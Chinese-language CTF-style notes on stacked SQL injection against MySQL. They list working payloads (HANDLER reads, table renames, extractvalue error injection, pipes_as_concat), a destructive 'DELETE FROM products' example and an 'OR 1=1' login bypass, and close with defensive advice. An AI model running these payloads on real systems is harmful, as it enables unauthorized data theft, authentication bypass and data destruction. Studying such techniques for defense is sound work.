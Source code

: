 ```
1';show databases--+
-1';show databases;#
1'and extractvalue(1,concat(0x7e,(database())))--+
1';show tables--+

看字段
1'; show columns from `words`--+
1'; show columns from `1919810931114514`--+

直接读表字段的值
1'; handler
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

利用原有的回显，把flag表改名过去。
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```
>Handler语法:
handler语句，一行一行的浏览一个表中的数据
handler语句并不具备select语句的所有功能。
mysql专用的语句，并没有包含到SQL标准中。
HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。
1、HANDLER tbl_name OPEN
打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
2、HANDLER tbl_name READ FIRST
获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
3、HANDLER tbl_name CLOSE
关闭打开的句柄。
4、HANDLER tbl_name READ index_name = value
通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

^
```
post中：
query=1;show databases;
query=1;show columns from Flag;#

猜测语句
select $_GET['query'] || flag from flag

payload：
query=*,1
或
query=1;set sql_mode=pipes_as_concat;select 1
```

堆叠注入（Stacked Injection）是一种 SQL 注入攻击技术，其中攻击者利用应用程序对用户输入的不安全处理，将多个 SQL 查询或命令堆叠在一起，以达到执行多个恶意操作的目的。

通常情况下，SQL 注入攻击是通过在应用程序接受用户输入的地方注入恶意的 SQL 代码来实现的。但在某些情况下，应用程序可能会接受并处理多个用户输入，并将它们拼接成一个或多个 SQL 查询或命令。攻击者可以利用这种情况来构造堆叠注入攻击。



堆叠注入在mysql数据库中并不常见，常见于mssql数据库，mssql数据库是默认堆叠注入的。
```
如用户输入：1; DELETE FROM products
服务器端生成的sql语句为：Select * from products where productid=1;DELETE FROM products
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
危害巨大。
可以使用盲注，布尔，验证是否存在堆叠注入。
```
<https://kitescat.github.io/2023/05/06/SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5/index.html>

## **场景**

例如，考虑以下伪代码：

```
username = getRequestParameter("username")
password = getRequestParameter("password")

sql_query = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
executeQuery(sql_query)
```

在这个例子中，应用程序接受了用户名和密码作为输入，并将它们拼接成一个 SQL 查询。如果应用程序没有对输入进行适当的验证和过滤，攻击者可以构造特定的输入，以便在用户名和密码字段中注入额外的 SQL 代码，从而实现堆叠注入攻击。

例如，攻击者可以构造以下输入：

```
username: ' OR 1=1; --
password: anything
```

这样，拼接后的 SQL 查询将变成：

```
SELECT * FROM users WHERE username='' OR 1=1; --' AND password='anything'
```

这将导致应用程序忽略密码验证，直接返回所有用户的记录，因为 `OR 1=1` 的条件始终为真。通过堆叠注入，攻击者可以绕过认证并执行恶意操作，比如获取敏感信息或者修改数据库内容。

要防止堆叠注入攻击，开发人员应该采取一系列的安全措施，包括使用参数化查询、合适的输入验证、过滤和转义来防止 SQL 注入。此外，最好避免将多个用户输入直接拼接成 SQL 查询或命令，而是使用安全的编程实践来处理用户输入。

